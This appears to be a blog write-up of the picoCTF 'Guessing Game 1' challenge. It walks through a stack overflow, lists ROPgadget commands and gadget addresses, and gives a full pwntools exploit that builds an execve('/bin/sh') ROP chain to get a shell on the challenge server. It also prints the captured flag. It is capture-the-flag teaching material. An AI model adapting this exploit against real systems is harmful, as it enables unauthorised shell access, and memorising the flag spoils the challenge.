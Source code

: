 # Blog
https://frc6.com/index.php/archives/45/

# Question
### Source
https://play.picoctf.org/events/3/challenges/challenge/90
### Description
I made a simple game to show off my programming skills. See if you can beat it!
[Gussing Game 1.zip][1]
`nc jupiter.challenges.picoctf.org 50583`

# Tools
IDA
VM - Kali Linux
Python
ROPgadget

# Analysis
## Knowledge points
Binary Exploitation
Return-oriented programming (ROP)
The goal of the Challenge Question is to run `execve("/bin/sh",NULL,NULL)` on the remote server.
Tips: No shellcode b/c NX is enabled: you cannot execute stack

## vuln
Analysis vuln.c and found that there is a **Stack Overflow Vuln**: 

    void win() {
        char winner[BUFSIZE];
        printf("New winner!\nName? ");
        fgets(winner, 360, stdin);//overflow vuln
        printf("Congrats %s\n\n", winner);
    }
Grabbing control of `eip` by taking advantage of the vuln to let the program Stack Overflow.

## Gadgets
Run the following commands:

    ROPgadget --binary vuln --only "pop|ret"
    ROPgadget --binary vuln --only "mov|ret"
    ROPgadget --binary vuln --only "syscall|ret"

Do ROP to achieve the goal—`execve("/bin/sh",NULL,NULL)`—by using the following gadgets:

    0x00000000004163f4 : pop rax ; ret
    0x000000000044a6b5 : pop rdx ; ret
    0x0000000000400696 : pop rdi ; ret
    0x0000000000436393 : mov qword ptr [rdi], rdx ; ret
    0x000000000044cc49 : pop rdx ; pop rsi ; ret
    0x000000000040137c : syscall

## Disassembly

### do_stuff()
Input the Gussing Number "84" for the first time (you only need one time if you guess correct so you can access to win() function)

Q: Why "84"
A: Dynamic debugging (IDA debugger or GDB)
Set a breakpoint at the following position:

    .text:0000000000400BBC                 mov     [rbp+var_ans], rax

`rax` will be equal to 84

### win()
    .text:0000000000400C40                 public win
    .text:0000000000400C40 win             proc near               ; CODE XREF: main+70↓p
    .text:0000000000400C40
    .text:0000000000400C40 winner          = byte ptr -70h
    .text:0000000000400C40
    .text:0000000000400C40 ; __unwind {
    .text:0000000000400C40                 push    rbp
    .text:0000000000400C41                 mov     rbp, rsp
    .text:0000000000400C44                 sub     rsp, 70h
    .text:0000000000400C48                 lea     rdi, aNewWinnerName ; "New winner!\nName? "
    .text:0000000000400C4F                 mov     eax, 0
    .text:0000000000400C54                 call    printf
    .text:0000000000400C59                 mov     rdx, cs:stdin
    .text:0000000000400C60                 lea     rax, [rbp+winner]
    .text:0000000000400C64                 mov     esi, 168h
    .text:0000000000400C69                 mov     rdi, rax
    .text:0000000000400C6C                 call    fgets
    .text:0000000000400C71                 lea     rax, [rbp+winner]
    .text:0000000000400C75                 mov     rsi, rax
    .text:0000000000400C78                 lea     rdi, aCongratsS ; "Congrats %s\n\n"
    .text:0000000000400C7F                 mov     eax, 0
    .text:0000000000400C84                 call    printf
    .text:0000000000400C89                 nop
    .text:0000000000400C8A                 leave
    .text:0000000000400C8B                 retn
    .text:0000000000400C8B ; } // starts at 400C40
    .text:0000000000400C8B win             endp

The return address of the function is stored at `rbp+8`, so overwrite it by overflowing the stack

## ROP: Gadgets
We are planning to run the following assembly code after win() return.

    ret        (retn of win() at .text:0000000000400C8B)
    pop rax
    ret
    pop rdx
    ret
    pop rdi
    ret
    mov qword ptr [rdi], rdx
    ret
    pop rdx
    pop rsi
    ret
    syscall

In order to run `execve("/bin/sh",NULL,NULL)` successfully, `rax` should be equal to 59 durning `syscall` is running, `rdi` should be the pointer of "/bin/sh", and `rsi` and `rdx` should be equal to 0 (NULL).

So, we should let the Stack like this:

    rbp+8		0x00000000004163f4			Address of one of Gadget
    rbp+10h		59					rax
    rbp+18h		0x000000000044a6b5			Address of one of Gadget			
    rbp+20h		"/bin/sh"				rdx (temporary use; will be overwrite later)
    rbp+28h		0x0000000000400696			Address of one of Gadget
    rbp+30h		0x00000000006BA770			rdi
    rbp+38h		0x0000000000436393			Address of one of Gadget
    rbp+40h		0x000000000044cc49			Address of one of Gadget
    rbp+48h		0					rdx
    rbp+50h		0					rsi
    rbp+58h		0x000000000040137c			syscall

## Remote to Find Flag: Python

Run the following Python program:

    from pwn import *
    
    sh = remote('jupiter.challenges.picoctf.org',50583)
    
    p = make_packer('all', endian='big', sign='unsigned')
    p64 = make_packer(64, endian='little', sign='unsigned')
    
    payload = p(0x90)*(0x70+8)	#rbp-70h
    payload += p64(0x4163f4)	#rbp+8h
    payload += p64(59)			#rbp+10h
    payload += p64(0x44a6b5)	#rbp+18h
    payload += p(0x2F62696E2F736800)	#rbp+20h
    payload += p64(0x400696)	#rbp+28h
    payload += p64(0x6BA770)	#rbp+30h
    payload += p64(0x436393)	#rbp+38h
    payload += p64(0x44cc49)	#rbp+40h
    payload += p64(0)			#rbp+48h
    payload += p64(0)			#rbp+50h
    payload += p64(0x40137c)	#rbp+58h
    
    sh.recvuntil('guess?\n')
    sh.sendline(p(0x3834))#84
    
    sh.recvuntil('\nName? ')
    sh.sendline(payload)
    
    sh.interactive()

![result.png][2]

So the Flag is `picoCTF{r0p_y0u_l1k3_4_hurr1c4n3_1ed68bc5575f6be1}`

  [1]: https://frc6.com/usr/uploads/2020/10/2453405697.zip
  [2]: https://frc6.com/usr/uploads/2020/10/1353396828.png
